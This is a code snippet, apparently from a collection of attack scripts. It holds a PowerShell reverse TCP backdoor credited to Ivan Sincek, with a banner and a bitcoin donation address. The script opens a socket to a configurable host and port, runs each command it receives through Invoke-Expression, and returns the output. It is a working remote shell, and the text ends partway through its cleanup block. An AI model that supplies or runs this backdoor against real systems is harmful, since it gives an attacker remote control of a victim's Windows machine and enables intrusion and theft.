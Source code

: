 #### Powershell reverse TCP
```powershell - windows
Write-Host "########################################################################";
Write-Host "#                                                                      #";
Write-Host "#                        PowerShell Reverse TCP v3.6                   #";
Write-Host "#                                          by Ivan Sincek              #";
Write-Host "#                                                                      #";
Write-Host "# GitHub repository at github.com/ivan-sincek/powershell-reverse-tcp.  #";
Write-Host "# Feel free to donate bitcoin at 1BrZM6T7G9RN8vbabnfXu4M6Lpgztq6Y14.   #";
Write-Host "#                                                                      #";
Write-Host "########################################################################";
$client = $stream = $buffer = $writer = $data = $result = $null;
try {
	# change the host address and/or port number as necessary
	$client = New-Object Net.Sockets.TcpClient("127.0.0.1", 9000);
	$stream = $client.GetStream();
	$buffer = New-Object Byte[] 1024;
	$encoding = New-Object Text.AsciiEncoding;
	$writer = New-Object IO.StreamWriter($stream);
	$writer.AutoFlush = $true;
	Write-Host "Backdoor is up and running...";
	Write-Host "";
	$bytes = 0;
	do {
		$writer.Write("PS>");
		do {
			$bytes = $stream.Read($buffer, 0, $buffer.Length);
			if ($bytes -gt 0) {
				$data = $data + $encoding.GetString($buffer, 0, $bytes);
			}
		} while ($stream.DataAvailable);
		if ($bytes -gt 0) {
			$data = $data.Trim();
			if ($data.Length -gt 0) {
				try {
					$result = Invoke-Expression -Command $data 2>&1 | Out-String;
				} catch {
					$result = $_.Exception | Out-String;
				}
				Clear-Variable -Name "data";
				$length = $result.Length;
				$count = 0;
				$bytes = $buffer.Length;
				while ($length -gt 0) {
					if ($length -lt $buffer.Length) {
						$bytes = $length;
					}
					$writer.Write($result.substring($count, $bytes));
					$count += $bytes;
					$length -= $bytes;
				}
				Clear-Variable -Name "result";
			}
		}
	} while ($bytes -gt 0);
	Write-Host "Backdoor will now exit...";
} catch {
	Write-Host $_.Exception.InnerException.Message;
} finally {
	if ($writer -ne $null) {
		$writer.Close(); $writer.Dispose();
		Clear-Variable -Name "writer";
	}
```